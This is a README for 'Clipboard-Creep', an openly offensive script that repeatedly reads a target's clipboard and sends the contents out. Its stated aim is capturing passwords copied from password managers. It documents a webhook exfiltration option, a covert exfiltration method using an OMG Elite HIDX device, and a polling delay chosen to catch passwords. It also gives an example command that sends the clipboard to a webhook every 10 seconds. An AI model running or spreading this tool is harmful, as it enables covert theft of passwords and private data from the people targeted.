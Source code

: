 # Clipboard-Creep #
Clipboard-Creep is a basic script which tracks the users clipboard and exfiltrates it contents. It was created to get access to passwords copied out of password managers, but might be useful in general.


## Usage ##
### Webhook ###
The paramter webhook where data gets send to. Define the URL simply after the paramter and get the incoming clipboard content.

### CovertExfil ###
This method required an HIDX poc to be successfully imported on the system. In addition to that, an OMG Elite device with actived HIDX is required. (This method is seen as a work in progress POC)

### Sleep ###
The paramter sleep defines delay between every observation of the targets clipboard. A default of 12 seconds was choosen to capture potential passwords, in clipboards of password managers.

### EXAMPLE ###
Output the targets clipboard into the console, every 12 seconds.
```Clipboard-Creep```

### EXAMPLE ###
Exfiltrate the targets clipboard content to a defined webhook every 10 seconds.
```Clipboard-Creep -Webhook "https://example.com/" -Sleep 10```

![alt text](https://github.com/0iphor13/ClipBoard-Creep/blob/main/ClipBoard-Creep/media/clippy.png)
